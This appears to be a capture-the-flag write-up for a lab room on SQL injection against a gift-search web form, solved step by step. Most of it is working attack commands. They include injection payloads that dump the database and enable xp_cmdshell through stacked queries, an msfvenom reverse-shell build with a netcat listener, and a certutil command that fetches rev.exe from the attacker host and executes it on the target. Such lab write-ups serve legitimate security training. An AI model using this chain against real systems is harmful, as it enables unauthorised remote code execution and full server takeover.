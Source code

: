 # Inject the Halls with EXEC Queries

## Solution
- Hit "Start Machine" and navigate to http://IP.
- Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature? 

![Alt text](image.png)

- Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?
Inject a single quote on the "age" parameter to get the error.
```bash
http://10.10.234.198/giftresults.php?age=teenager%27&interests=toys&budget=80
```

![Alt text](image-1.png)

- Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?
Inject the payload ' or 1=1;-- into the "age" parameter.
```bash
http://10.10.234.198/giftresults.php?age=teenager%27%20or%201=1;--&interests=toys&budget=80
```

![Alt text](image-2.png)

- What flag is in the note file Gr33dstr left behind on the system?
Enable xp_cmdshell injecting a stacked-query into the "age" parameter.
```bash
Payload:
'; EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
http://10.10.234.198/giftresults.php?age=teenager%27;%20EXEC%20sp_configure%20%27show%20advanced%20options%27,%201;RECONFIGURE;EXEC%20sp_configure%20%27xp_cmdshell%27,%201;RECONFIGURE;--&interests=toys&budget=80
```
Prepare a reverse shell with msfvenom.
```bash
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.170.28 LPORT=4444 -f exe -o rev.exe
```
Start the netcat listener.
```bash
nc -lvnp 4444
```
Host the rev.exe file on the attacker machine.
```bash
python -m http.server 8888
```
Download and execute the rev.exe on the target machine through SQL injection.
Payload:
```bash
'; EXEC xp_cmdshell 'certutil -urlcache -f http://10.8.170.28:8888/rev.exe C:\Windows\Temp\rev.exe'; EXEC xp_cmdshell 'C:\Windows\Temp\rev.exe';--
http://10.10.234.198/giftresults.php?age=teenager%27;%20EXEC%20xp_cmdshell%20%27certutil%20-urlcache%20-f%20http://10.8.170.28:8888/rev.exe%20C:\Windows\Temp\rev.exe%27;%20EXEC%20xp_cmdshell%20%27C:\Windows\Temp\rev.exe%27;--&interests=toys&budget=80
```

![Alt text](image-3.png)

Browse C:\Users\Administrato\Desktop to find the flag.
```bash
type Note.txt
```

![Alt text](image-4.png)

- What is the flag you receive on the homepage after restoring the website?
To restore the website just run the suggested bat script.
```bash
restore_website.bat
```

![Alt text](image-5.png)

![Alt text](image-6.png)
